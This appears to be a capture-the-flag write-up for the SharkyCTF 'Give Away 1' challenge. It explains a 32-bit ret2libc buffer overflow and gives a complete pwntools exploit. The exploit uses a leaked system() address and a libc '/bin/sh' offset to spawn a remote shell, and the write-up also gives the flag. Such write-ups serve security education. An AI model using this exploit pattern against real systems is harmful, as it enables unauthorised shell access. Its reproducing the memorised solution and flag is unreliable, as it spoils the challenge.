

# Give Away 1

> Make good use of this gracious give away.
>
> nc sharkyctf.xyz 20334

## Description

For this one we are given both a library and the executable. Let's dissasemble the executable with [Ghidra](https://ghidra-sre.org/).

```c
undefined4 main(void)
{
  init_buffering(&stack0x00000004);
  FUN_000104c0("Give away: %p\n",system);
  vuln();
  return 0;
}

void vuln(void)
{
  int iVar1;
  undefined local_24 [28];
  
  iVar1 = __x86.get_pc_thunk.ax();
  FUN_000104c8(local_24,0x32,**(undefined4 **)(iVar1 + 0x191f));
  return;
}
```

By executing the program, we see that `FUN_000104c0` is `printf` and `FUN_000104c8` is `fgets` called with `stdin`. So once again, this is a buffer overflow. We'll want to spawn a shell, and a good way to do this is to call `system` with `/bin/sh` as argument. This kind of exploit is a ret2lib exploit.

## Solution

This time ASLR is enabled, meaning that the addresses change. But thanksfully, the address of system in the library is given away. With ASLR, only the base address changes, but the offset remains the same. So we can find the address of our functions relatively to `system`, then read its address and add the offsets to find their real address.

The exploits works as follow:
- overflow the buffer, overwrite the return address and go to `system`
- find where we need to put our argument
- give `/bin/sh` as argument to `system`.

For this challenge I'm using [pwntools](http://docs.pwntools.com/en/stable/).

### Go to system

First we need to extract the given system address.

```python
sh = remote("sharkyctf.xyz", 20334)

print(sh.recvuntil("Give away: "))
system_string = sh.recvline().decode()
print(system_string)
system = int(system_string, 16)
```

Then locally I find the offset with gdb. This is the same technique as the one used in [GiveAway0](../GiveAway0.md), so I won't put it here again.

```python
OFFSET = 36
```

Using gdb I check that I do reach `system`.

### Find where the argument goes

With gdb, I disassemble `system` in the library.

```assembly
0x0003d200 <+0>:     sub    $0xc,%esp
0x0003d203 <+3>:     mov    0x10(%esp),%eax
0x0003d207 <+7>:     call   0x13737d
0x0003d20c <+12>:    add    $0x19adf4,%edx
0x0003d212 <+18>:    test   %eax,%eax
0x0003d214 <+20>:    je     0x3d220 <system+32>
0x0003d216 <+22>:    add    $0xc,%esp
0x0003d219 <+25>:    jmp    0x3cce0
0x0003d21e <+30>:    xchg   %ax,%ax
0x0003d220 <+32>:    lea    -0x59f29(%edx),%eax
0x0003d226 <+38>:    call   0x3cce0
0x0003d22b <+43>:    test   %eax,%eax
0x0003d22d <+45>:    sete   %al
0x0003d230 <+48>:    add    $0xc,%esp
0x0003d233 <+51>:    movzbl %al,%eax
0x0003d236 <+54>:    ret
```

The argument seems to be fetched at `0x10(%esp)`: it is passed on the stack. Therefore my payload will be:

```
fill_buffer + addr_system + addr_bin_sh
```

But doing this will not work, as the stack needs to be 16-bytes aligned, so I need to add dummy 4 bytes before the argument.

### Find address of /bin/sh

I find a copy of the `/bin/sh` string using:

```bash
strings -a -t x libc.so.6 | grep /bin/sh
```

This gives me the address `0x17e0cf` for the string. With gdb, I find `0x3d200` for `system`.

### Exploit

We can finally build the exploit.

```python
sh = remote("sharkyctf.xyz", 20334)

print(sh.recvuntil("Give away: "))
system_string = sh.recvline().decode()
print(system_string)
system = int(system_string, 16)

OFFSET = 36
bin_sh = system + 0x17e0cf - 0x3d200

payload = b'A'*OFFSET + p32(system) + p32(0) + p32(bin_sh)
print(payload)
sh.sendline(payload)
sh.interactive()
```



Flag: `shkCTF{I_h0PE_U_Fl4g3d_tHat_1n_L3ss_Th4n_4_m1nuT3s}`